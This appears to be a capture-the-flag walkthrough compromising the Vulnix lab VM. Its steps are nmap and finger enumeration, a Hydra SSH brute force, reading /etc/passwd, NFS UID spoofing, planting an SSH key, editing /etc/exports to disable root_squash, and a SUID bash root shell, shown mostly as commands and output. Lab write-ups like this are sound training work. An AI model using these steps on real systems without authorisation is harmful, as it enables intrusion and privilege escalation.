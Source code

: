 # VULNIX


### NMAP

kali@kali:~$ nmap 192.168.1.100 -sV -sT -A
>Starting Nmap 7.60 ( https://nmap.org ) at 2018-03-10 13:44 CET
Nmap scan report for vulnix.home (192.168.1.100)
Host is up (0.00055s latency).
Not shown: 988 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 5.9p1 Debian 5ubuntu1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 10:cd:9e:a0:e4:e0:30:24:3e:bd:67:5f:75:4a:33:bf (DSA)
|   2048 bc:f9:24:07:2f:cb:76:80:0d:27:a6:48:52:0a:24:3a (RSA)
|_  256 4d:bb:4a:c1:18:e8:da:d1:82:6f:58:52:9c:ee:34:5f (ECDSA)
25/tcp   open  smtp       Postfix smtpd
|_smtp-commands: vulnix, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
| ssl-cert: Subject: commonName=vulnix
| Not valid before: 2012-09-02T17:40:12
|_Not valid after:  2022-08-31T17:40:12
|_ssl-date: 2018-03-10T12:45:36+00:00; +1s from scanner time.
79/tcp   open  finger     Linux fingerd
|_finger: No one logged on.\x0D
110/tcp  open  pop3       Dovecot pop3d
|_pop3-capabilities: PIPELINING CAPA UIDL SASL STLS TOP RESP-CODES
| ssl-cert: Subject: commonName=vulnix/organizationName=Dovecot mail server
| Not valid before: 2012-09-02T17:40:22
|_Not valid after:  2022-09-02T17:40:22
|_ssl-date: 2018-03-10T12:45:36+00:00; 0s from scanner time.
111/tcp  open  rpcbind    2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3          111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100003  2,3,4       2049/tcp  nfs
|   100003  2,3,4       2049/udp  nfs
|   100005  1,2,3      53683/udp  mountd
|   100005  1,2,3      59616/tcp  mountd
|   100021  1,3,4      36103/udp  nlockmgr
|   100021  1,3,4      45994/tcp  nlockmgr
|   100024  1          36141/udp  status
|   100024  1          53348/tcp  status
|   100227  2,3         2049/tcp  nfs_acl
|_  100227  2,3         2049/udp  nfs_acl
143/tcp  open  imap       Dovecot imapd
|_imap-capabilities: OK LOGINDISABLEDA0001 ENABLE IDLE SASL-IR LOGIN-REFERRALS post-login have Pre-login more IMAP4rev1 capabilities STARTTLS LITERAL+ listed ID
| ssl-cert: Subject: commonName=vulnix/organizationName=Dovecot mail server
| Not valid before: 2012-09-02T17:40:22
|_Not valid after:  2022-09-02T17:40:22
|_ssl-date: 2018-03-10T12:45:36+00:00; +1s from scanner time.
512/tcp  open  exec?
513/tcp  open  login      OpenBSD or Solaris rlogind
514/tcp  open  tcpwrapped
993/tcp  open  ssl/imap   Dovecot imapd
|_imap-capabilities: OK ENABLE IDLE SASL-IR LOGIN-REFERRALS post-login have Pre-login more IMAP4rev1 capabilities listed LITERAL+ AUTH=PLAINA0001 ID
| ssl-cert: Subject: commonName=vulnix/organizationName=Dovecot mail server
| Not valid before: 2012-09-02T17:40:22
|_Not valid after:  2022-09-02T17:40:22
|_ssl-date: 2018-03-10T12:45:35+00:00; 0s from scanner time.
995/tcp  open  ssl/pop3   Dovecot pop3d
|_pop3-capabilities: PIPELINING CAPA UIDL SASL(PLAIN) USER TOP RESP-CODES
| ssl-cert: Subject: commonName=vulnix/organizationName=Dovecot mail server
| Not valid before: 2012-09-02T17:40:22
|_Not valid after:  2022-09-02T17:40:22
|_ssl-date: 2018-03-10T12:45:35+00:00; 0s from scanner time.
2049/tcp open  nfs_acl    2-3 (RPC #100227)
Service Info: Host:  vulnix; OS: Linux; CPE: cpe:/o:linux:linux_kernel


### FINGER

kali@kali:~$ finger root@192.168.1.100
>Login: root           			Name: root
Directory: /root                    	Shell: /bin/bash
Never logged in.
No mail.
No Plan.

kali@kali:~$ finger vulnix@192.168.1.100
>Login: vulnix         			Name: 
Directory: /home/vulnix             	Shell: /bin/bash
Never logged in.
No mail.
No Plan.

root@kali:/home# finger user@192.168.1.100
>Login: user           			Name: user
Directory: /home/user               	Shell: /bin/bash
Never logged in.
No mail.
No Plan.
>
>Login: dovenull       			Name: Dovecot login user
Directory: /nonexistent             	Shell: /bin/false
Never logged in.
No mail.
No Plan.


### NFS

root@kali:/home/kali# showmount -e 192.168.1.100
>Export list for 192.168.1.100:
/home/vulnix *

root@kali:/home/kali# mount --source 192.168.1.100:/home/vulnix --target /home/vulnix

**Permission denied T.T'**


### BRUTEFORCE

kali@kali:~$ hydra -l user -P rockyou.txt 192.168.1.100 ssh -t 4
>Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (http://www.thc.org/thc-hydra) starting at 2018-03-10 15:38:39
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://192.168.1.100:22/
[STATUS] 64.00 tries/min, 64 tries in 00:01h, 14344335 to do in 3735:31h, 4 active
[STATUS] 60.67 tries/min, 182 tries in 00:03h, 14344217 to do in 3940:44h, 4 active
[STATUS] 60.57 tries/min, 424 tries in 00:07h, 14343975 to do in 3946:51h, 4 active
[22][ssh] host: 192.168.1.100   login: user   password: letmein
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2018-03-10 15:47:27

kali@kali:~$ root -l user 192.168.1.100
>user@vulnix:~$ id
uid=1000(user) gid=1000(user) groups=1000(user),100(users)

user@vulnix:~$ cat /etc/passwd
>root: x:0:0:root:/root:/bin/bash
vulnix: x:2008:2008::/home/vulnix:/bin/bash


### ACCESS TO NFS

root@kali:/home/kali# groupadd vulnix -g 2008
root@kali:/home/kali# useradd vulnix -u 2008 -g 2008 -s /bin/bash
root@kali:/home/kali# mkdir /home/vulnix
root@kali:/home/kali# mount --source 192.168.1.100:/home/vulnix --target /home/vulnix
root@kali:/home/kali# su vulnix
vulnix@kali:/home/kali$ cd /home/vulnix
vulnix@kali:~$ ll
>total 20
drwxr-x--- 2 vulnix vulnix 4096 Sep  2  2012 ./
drwxr-xr-x 4 root   root   4096 Mar 10 16:04 ../
-rw-r--r-- 1 vulnix vulnix  220 Apr  3  2012 .bash_logout
-rw-r--r-- 1 vulnix vulnix 3486 Apr  3  2012 .bashrc
-rw-r--r-- 1 vulnix vulnix  675 Apr  3  2012 .profile


### GETTING SSH WITH VULNIX

kali@kali:~$ ssh-keygen -t rsa
kali@kali:~$ cat .ssh/id_rsa.pub 
>ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDT1Mw6+iVZcmCHOe9IBW7S5He5ZeBwTFNhNlNqZQ90S2GLlenYEJElGxS2LiZcjtaTi4DkeYSZlUOI+fXKb+iLLFXyHdkh53gqSwF/sD0rV8N+6HQB93XtwWf69SUm80Dw9rYTOkDhPzHhQFsUIXyErZeiX0vdcDsXEKUV+toYOmmUa/avVbz/Y9CjMTAAFxEDSzprbLAIORJ6ZjIeVn5J4xHo1+xuD3O0tQ/Jw7fhc7zTn3NGtd0JjDuRiz9T6X+eYLL6+rwMXnQXKxhGNbuBIObNHR/iNL1YZdSxH6W8gSFiHIGr42hSUV1dxEySDz8bNCZFI2etWyqbpTmfJGCP kali@kali

kali@kali:~$ su vulnix
vulnix@kali:~/.ssh$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDT1Mw6+iVZcmCHOe9IBW7S5He5ZeBwTFNhNlNqZQ90S2GLlenYEJElGxS2LiZcjtaTi4DkeYSZlUOI+fXKb+iLLFXyHdkh53gqSwF/sD0rV8N+6HQB93XtwWf69SUm80Dw9rYTOkDhPzHhQFsUIXyErZeiX0vdcDsXEKUV+toYOmmUa/avVbz/Y9CjMTAAFxEDSzprbLAIORJ6ZjIeVn5J4xHo1+xuD3O0tQ/Jw7fhc7zTn3NGtd0JjDuRiz9T6X+eYLL6+rwMXnQXKxhGNbuBIObNHR/iNL1YZdSxH6W8gSFiHIGr42hSUV1dxEySDz8bNCZFI2etWyqbpTmfJGCP kali@kali" >> authorized_keys

kali@kali:~$ ssh -l vulnix 192.168.1.100


### PRIVILEGE ELEVATION

vulnix@vulnix:~$ sudo -l
>Matching 'Defaults' entries for vulnix on this host:
    env_reset,

       secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

       >

       >User vulnix may run the following commands on this host:
    (root) sudoedit /etc/exports, (root) NOPASSWD: sudoedit /etc/exports

   
vulnix@vulnix:~$ sudoedit /etc/exports
/home/vulnix    *(rw,root_squash)
/root   *(rw,no_root_squash) <- ADDED

**Reboot!**

root@kali:/home/kali# showmount -e 192.168.1.100
>Export list for 192.168.1.100:
/root        *
/home/vulnix *

root@kali:/mnt# mount 192.168.1.100:/root /mnt/root
root@kali:/mnt# cd /mnt/root
root@kali:/mnt/root# ls -lrth
>total 4.0K
-r-------- 1 root root 33 Sep  2  2012 trophy.txt

root@kali:/mnt/root# cat trophy.txt 
***cc614640424f5bd60ce5d5264899c3be***


### GETTING ROOT SHELL

vulnix@vulnix:~$ sudoedit /etc/exports
>/home/vulnix    *(rw,no_root_squash) <- MODIFIED
/root   *(rw,no_root_squash)

**Reboot!**

vulnix@vulnix:~$ cp /bin/bash /home/vulnix

root@kali:/mnt/vulnix# chmod 4777 bash 
root@kali:/mnt/vulnix# ls -lrth
>total 900K
-rwsrwxrwx 1 root root 900K Mar 10 16:47 bash

vulnix@vulnix:~$ ./bash -p
bash-4.2# id
>uid=2008(vulnix) gid=2008(vulnix) euid=0(root) groups=0(root),2008(vulnix)
